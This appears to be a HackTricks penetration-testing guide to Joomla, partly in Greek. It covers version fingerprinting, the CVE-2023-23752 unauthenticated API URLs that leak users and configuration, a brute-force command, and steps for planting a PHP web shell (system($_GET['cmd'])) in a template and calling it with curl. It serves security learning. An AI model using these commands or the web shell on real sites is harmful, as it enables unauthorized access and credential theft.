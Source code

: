 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomla Statistics

Το Joomla συλλέγει ορισμένα ανώνυμα [στατιστικά χρήσης](https://developer.joomla.org/about/stats.html) όπως η κατανομή των εκδόσεων Joomla, PHP και βάσεων δεδομένων και των λειτουργικών συστημάτων διακομιστών που χρησιμοποιούνται σε εγκαταστάσεις Joomla. Αυτά τα δεδομένα μπορούν να ανακτηθούν μέσω του δημόσιου [API](https://developer.joomla.org/about/stats/api.html) τους.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Ελέγξτε το **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Έκδοση

* Στο **/administrator/manifests/files/joomla.xml** μπορείτε να δείτε την έκδοση.
* Στο **/language/en-GB/en-GB.xml** μπορείτε να βρείτε την έκδοση του Joomla.
* Στο **plugins/system/cache/cache.xml** μπορείτε να δείτε μια περίπου έκδοση.

### Αυτόματη
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology είναι μια ενότητα σχετικά με τους σαρωτές CMS**](./#cms-scanners) που μπορούν να σαρώσουν το Joomla.

### API Μη Αυθεντικοποιημένη Αποκάλυψη Πληροφοριών:

Οι εκδόσεις από 4.0.0 έως 4.2.7 είναι ευάλωτες σε μη αυθεντικοποιημένη αποκάλυψη πληροφοριών (CVE-2023-23752) που θα εκθέσει διαπιστευτήρια και άλλες πληροφορίες.

* Χρήστες: `http://<host>/api/v1/users?public=true`
* Αρχείο Ρυθμίσεων: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Module**: `scanner/http/joomla_api_improper_access_checks` ή ruby script: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Μπορείτε να χρησιμοποιήσετε αυτό το [script](https://github.com/ajnik/joomla-bruteforce) για να προσπαθήσετε να κάνετε brute force την είσοδο.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Αν καταφέρατε να αποκτήσετε **διαπιστευτήρια διαχειριστή**, μπορείτε να **RCE μέσα σε αυτό** προσθέτοντας ένα κομμάτι **PHP κώδικα** για να αποκτήσετε **RCE**. Μπορούμε να το κάνουμε αυτό **προσαρμόζοντας** ένα **θέμα**.

1. **Κάντε κλικ** στο **`Templates`** στο κάτω αριστερό μέρος κάτω από το `Configuration` για να εμφανιστεί το μενού θεμάτων.
2. **Κάντε κλικ** σε ένα όνομα **θέματος**. Ας επιλέξουμε το **`protostar`** κάτω από τον τίτλο στήλης `Template`. Αυτό θα μας φέρει στη σελίδα **`Templates: Customise`**.
3. Τέλος, μπορείτε να κάνετε κλικ σε μια σελίδα για να εμφανίσετε την **πηγή της σελίδας**. Ας επιλέξουμε τη σελίδα **`error.php`**. Θα προσθέσουμε μια **PHP one-liner για να αποκτήσουμε εκτέλεση κώδικα** ως εξής:
1. **`system($_GET['cmd']);`**
4. **Αποθήκευση & Κλείσιμο**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Από XSS σε RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Σενάριο εκμετάλλευσης Joomla που **ανεβάζει XSS σε RCE ή άλλες κρίσιμες ευπάθειες**. Για περισσότερες πληροφορίες δείτε [**αυτή την ανάρτηση**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Παρέχει **υποστήριξη για εκδόσεις Joomla 5.X.X, 4.X.X και 3.X.X, και επιτρέπει να:**
* _**Αύξηση Δικαιωμάτων:**_ Δημιουργεί έναν χρήστη στο Joomla.
* _**(RCE) Επεξεργασία Ενσωματωμένων Θεμάτων:**_ Επεξεργάζεται Ενσωματωμένα Θέματα στο Joomla.
* _**(Custom) Προσαρμοσμένες Εκμεταλλεύσεις:**_ Προσαρμοσμένες Εκμεταλλεύσεις για Πρόσθετα Joomla τρίτων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
